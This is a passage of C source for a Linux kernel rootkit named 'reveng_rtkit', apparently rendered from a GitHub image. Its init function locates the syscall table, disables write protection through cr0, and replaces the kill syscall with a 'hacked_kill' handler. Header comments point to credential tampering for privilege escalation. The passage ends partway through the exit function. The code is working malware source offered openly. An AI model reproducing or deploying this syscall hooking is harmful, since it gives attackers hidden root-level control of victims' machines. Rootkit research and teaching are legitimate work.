 ```c
#include <linux/init.h>		/* Needed for the macros */
#include <linux/module.h>	/* Needed by all modules */
#include <linux/kernel.h>	/* Needed for printing log level messages */
#include <linux/list.h>		/* macros related to linked list are defined here. Eg: list_add(), list_del(), list_entry(), etc */
#include <linux/cred.h>		/* To change value of this fields we have to invoke prepare_creds(). 
				 * To set those modified values we have to invoke commit_creds(). 
				 * uid, gid and other similar "things" are stored in cred structure which is element of cred structure. */
#include "Test_hook_kill.h"


/* Function Prototypes */

static int      __init rootkit_init(void);
static void     __exit rootkit_exit(void);


// =================== Entry Function ====================

static int __init rootkit_init(void)
{
	printk(KERN_INFO "=================================================\n");
	printk(KERN_INFO "[+] reveng_rtkit: Created by @reveng007(Soumyanil)");
	printk(KERN_INFO "[+] reveng_rtkit: Loaded \n");

	__sys_call_table = get_syscall_table();
	if (!__sys_call_table)
		return -1;

	printk(KERN_INFO "[+] reveng_rtkit: Address of sys_call_table in kernel memory: 0x%px \n", __sys_call_table);

	/* Executes the instruction to read cr0 register (via inline assembly) and returns the result in a general-purpose register.
	 *
	 * link: https://elixir.bootlin.com/linux/v5.11/source/arch/x86/include/asm/paravirt_types.h#L111
	 *
	 * unsigned long (*read_cr0)(void);
	 */
	 cr0 = read_cr0();

	// Storing original syscall
	orig_kill = (tt_syscall)__sys_call_table[__NR_kill];

	unprotect_memory();
	
	// Editing syscall table targeting "kill" syscall with our created "hacked_kill".
	__sys_call_table[__NR_kill] = (unsigned long) hacked_kill;

	protect_memory();

	return 0;
}

// ========================== Exit Function ====================

static void __exit rootkit_exit(void)
{
	printk(KERN_INFO "\n=========================================\n");

	unprotect_memory();
```